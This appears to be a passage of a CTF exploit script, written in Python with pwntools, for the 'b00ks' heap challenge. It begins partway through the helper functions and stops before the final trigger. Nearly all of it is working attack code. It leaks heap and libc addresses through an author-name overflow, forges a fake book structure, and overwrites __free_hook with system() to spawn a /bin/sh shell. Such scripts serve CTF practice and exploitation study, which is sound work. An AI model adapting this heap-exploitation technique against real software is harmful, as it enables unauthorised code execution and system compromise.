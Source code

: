 ```python
    target.sendline('3')
    target.sendlineafter('Enter the book id you want to edit: ', str(book_id))
    target.sendlineafter('Enter new book description: ', book_desc)

def print_book(target):
    target.recvuntil('>')
    target.sendline('4')

def change_author_name(target, name):
    target.recv()
    target.sendline('5')
    target.sendlineafter('Enter author name: ', name)

def input_author_name(target, name):
    target.sendlineafter('Enter author name: ', name)

target = process('./b00ks')
libc = ELF('/home/dililearngent/Desktop/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6')

# gdb.attach(target)
input_author_name(target, 'a'*32)
create_book(target, 0x90 ,'book_1', 0x90, 'first book created')
#pause()
# leak boo1_struct addr
print_book(target)
target.recvuntil('a'*32)
temp = target.recvuntil('\x0a')
book1_struct_addr = u64(temp[:-1].ljust(8, '\x00'))
print('book1_struct_addr:'+hex(book1_struct_addr))
book2_struct_addr = book1_struct_addr + 0x30
print('book2_struct_addr:'+hex(book2_struct_addr))

create_book(target, 0x21000, 'book_2', 0x21000, 'second book create')

# fake book1_struct
payload = 'a' * 0x40 + p64(1) + p64(book2_struct_addr + 8) * 2 + p64(0xffff)
edit_book(target, 1, payload)

change_author_name(target, 'a'*32)

# leak book2_name ptr
print_book(target)
target.recvuntil('Name: ')
temp = target.recvuntil('\x0a')
book2_name_ptr = u64(temp[:-1].ljust(8, '\x00'))
print('book2_name_ptr:'+hex(book2_name_ptr))
# pause()
# find in debug: mmap_addr - libcbase
# offset =  0x7ffff7fcf010 - 0x7ffff7a0e000s
offset=0x5c1010
libcbase = book2_name_ptr - offset
free_hook = libc.symbols['__free_hook'] + libcbase
system = libc.symbols['system'] + libcbase
binsh_addr = libc.search('/bin/sh').next() + libcbase
print('free_hook addr:'+hex(free_hook))
print('system_addr:'+hex(system))
print('binsh_addr:'+hex(binsh_addr))

payload = p64(binsh_addr) + p64(free_hook)
edit_book(target, 1, payload)
payload = p64(system)
edit_book(target, 2, payload)

```